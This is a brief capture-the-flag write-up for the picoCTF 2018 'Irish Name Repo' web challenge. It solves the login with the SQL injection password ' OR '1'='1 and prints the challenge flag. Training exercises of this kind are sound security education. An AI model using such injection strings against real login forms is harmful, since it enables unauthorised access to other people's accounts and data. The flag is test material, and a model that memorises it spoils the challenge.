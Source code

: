 # Irish Name Repo
 web exploitation, 200 points

## Description
 There is a website running at `http://2018shell.picoctf.com:52012`. Do you think you can log us in? Try to see if you can login! 

## Hints
 There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?

## Solution
 From the hint, we can infer that this challenge will invlove SQLi. The following attack worked for me

 ```
 username: admin
 password: ' OR '1'='1
 ```

## Flag
>picoCTF{con4n_r3411y_1snt_1r1sh_c0d93e2f}
